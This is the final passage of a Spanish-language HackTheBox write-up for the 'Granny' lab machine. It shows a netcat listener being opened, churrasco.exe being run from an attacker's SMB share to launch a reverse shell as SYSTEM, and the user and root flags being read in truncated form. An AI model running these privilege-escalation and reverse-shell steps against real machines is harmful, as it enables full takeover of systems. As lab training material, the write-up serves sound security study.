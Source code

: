 Creamos un listener
```bash
rlwrap nc -lnvp 4566
```

Ejecutamos en la máquina víctima `churrasco.exe` para que ejecute con privilegios `rev.exe`
```bash
\\10.10.14.8\smbFolder\churrasco.exe "\\10.10.14.8\smbFolder\rev.exe"
```

Obtenemos una shell como `nt authority\system`
```bash
whoami
nt authority\system
```

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
#USER
cd c:\
dir /b/s user.txt
C:\Documents and Settings\Lakis\Desktop\user.txt
set /P user=<"C:\Documents and Settings\Lakis\Desktop\user.txt"
echo.%user:~0,10%
700c5dc163
```

```bash
dir /b/s root.txt
C:\Documents and Settings\Administrator\Desktop\root.txt
set /P root=<"C:\Documents and Settings\Administrator\Desktop\root.txt"
echo.%root:~0,10%
aa4beed1c0
```

¡Hemos logrado completar la máquina `granny` de HackTheBox!

<p align="center">
<img src="/assets/images/granny/04-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
